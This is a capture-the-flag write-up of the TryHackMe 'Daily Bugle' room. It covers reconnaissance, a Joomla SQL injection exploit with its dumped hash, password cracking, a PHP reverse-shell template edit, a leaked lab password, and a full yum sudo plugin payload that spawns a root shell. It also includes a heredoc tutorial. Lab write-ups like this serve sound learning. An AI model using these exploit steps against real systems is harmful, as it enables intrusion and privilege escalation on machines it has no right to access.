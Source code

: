 ### Daily bugle

the [room](https://tryhackme.com/room/dailybugle)


# Starting

ok,let's go start this machine

```bash
export ip=10.10.208.176
echo $ip
```
as always i'll run nmap and i'm going to see if an web server exists

```bash
sudo nmap -sS -p- $ip -T4 -vv
```

ok,they have a web page...let me see what i find while gobuster is running

```bash
gobuster dir -w /usr/share/wordlists/sec-lists/Discovery/Web-Content/directory-list-2.3-big.txt -u $ip -x js,txt,php
```

ok, the web page is about a spider man robing a bank and have a interesting somethings, like a login fields a lot of directories that gobuster found.

the web site uses php and has a lot of parameters that i can try include something evil

this machine use something like Joomla, i don't know what is this but in readme.txt directory is saied a few interesting things.

like that joomla allows extensions :)

the content of robots.txt made me believe that this web server is misconfigured

i can access all of this directories that is in robots.txt file

~~~
Disallow: /administrator/  #login page
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
~~~

a few of this directories doesn't have anything, maybe i can run gobuster to brute force directories in these too,but it's so boring bro

i wanna believe that i won't need to do this

now what i'll do is take a look at all of these :) 

i could find the joomla version

	/administrator/manifests/files/joomla.xml

and the version is in this xml, i found it because i was search about how i would create a script that discover joomla version and i decide to try if this file had read permission :)

looks like this version has a SQL injection and i'm gonna search for an exploit

[exploit that i used](https://github.com/teranpeterson/Joomblah)

```bash
python3 joomblah.py $ip

Found table: fb9j5_users
Extracting users from fb9j5_users
Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']

```

```bash
john hash wordlist=/usr/share/wordlists/rockyou.txt 
```

after maybe 20 minutes john broke this hash omg 

user: jonah
password: spiderman123

ok,now i have a administrator account.

i've successfully logged in web page /administrator and it looks like a word press administrator panel or something like this

maybe i can update a php reverse shell as template or plugin?

yea,it works. I've updated the code in index.php file of the main template and now i'm inside the machine as apache user

and after this it was easy

i didn't have anything in contrab or suid permissions,any password or somethings like this

i was having a few errors with grep to find something interesting so i did the linpeas and he founds an password on php file, thanks god i'm really was 

	$pass = 'nv5uz9r3ZEDzVjNu'

and now

```bash
ssh jjameson@$ip  
```

now as i got the jjameson user and his password i can get the user.txt flag and see if i can do something for privilege escalation

```bash
sudo -l  
```

i can run /usr/bin/yum as sudo :)

```bash
TF=$(mktemp -d) #create a tmp directory and saves in TF variable

cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y #make the yum run y.py as sudo

```

explanation about "cat >$TF/x<<EOF" command

">" this operator outputs to a somewhere
e.g. 

```bash
echo "a" > a.txt
```
the output of echo command will be sended to a.txt file 

in this case cat output is sended to variable $TF/x that is, the temp directory that i created before and a new file that will be created. so,the output of cat command will be sended to x file in tmp directory

"<<" this is different, "here string" it's an way to enter a multiline string until the tag after this operand.

e.g.

```bash
$ cat > test << STOPTAG
> Now i can insert anything i want 
> if i put this STOPTAG here, the multiline don't stop because there has other words so the shell read all of these as strings
>  	STOPTAG
> the same thing occours if i put an space before the tag
> but if i put in this form, it's stopped
> STOPTAG

$ echo test
Now i can insert anything i want 
if i put this STOPTAG here, the multiline don't stop because there has other words so the shell read all of these as strings
  	STOPTAG
the same thing occours if i put an space before the tag
but if i put in this form, it's stopped
```
so, "cat >" is used to write for what the cat reads from terminal and sends it to test file

a little bit confusing ha

makes more sense when you understand the cat command 

because the cat command works of this way

```bash
cat 

a # your input
a # cat reads and send your output to terminal too

b # your input
b # cat output
```

```bash
$ cat > test2.txt

a # your input
b # your input

$ cat test2.txt
a 
b
```

